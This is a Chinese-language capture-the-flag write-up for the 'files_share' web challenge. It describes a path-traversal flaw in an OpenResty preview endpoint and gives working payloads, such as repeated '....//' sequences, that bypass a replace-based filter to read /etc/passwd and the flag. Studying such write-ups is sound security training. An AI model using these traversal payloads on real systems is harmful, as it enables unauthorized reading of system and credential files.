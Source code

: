 # virink\_2019\_files\_share

## virink\_2019\_files\_share

## 考点

* 目录扫描
* 任意文件下载
* 目录穿越
* Lua代码

## wp

提示`flag in f1ag_Is_h3re`，还提示是个脑洞题

index.gk这个后缀不知道什么东西，有两个js文件index.js和three.min.js，应该是魔方的源码。

看了一下响应头，服务器是openresty，它是一个基于 NGINX 的可伸缩的 Web 平台，可以使用 Lua 脚本语言调动 Nginx 支持的各种 C 以及 Lua 模块。

![](<../.gitbook/assets/image (12) (1).png>)

扫描发现存在/uploads/目录，有个Preview文件，下载下来看看，没发现什么东西

![](<../.gitbook/assets/image (8) (1) (1).png>)

下载链接格式如下，`http://90baaf07-a12e-437c-9470-dadb233172f2.node4.buuoj.cn:81/preview?f=favicon.ico`，尝试任意文件下载

`/preview?f=../index.gk`提示`File index.gk not found!`

`/preview?f=../index.gk/`提示`File index. not found!`

好像把`.`，`/`，`../`替换成空了，使用重写绕过

`/preview?f=....//....//....//....//....//....//....//etccc//passwd`可以看到`/etc/passwd`

![](<../.gitbook/assets/image (30).png>)

payload：

```
/preview?f=....//....//....//....//....//....//....//f1ag_Is_h3reee//flag
```

直接访问即可

看了一下[GitHub的代码](https://github.com/CTFTraining/virink\_2019\_web\_files\_share/blob/master/src/preview.lua)，代码只过滤了`../`，和题目好像不一样。

## 小结

1. openresty可能是有lua文件
2. 下载要注意链接，是不是存在任意文件下载
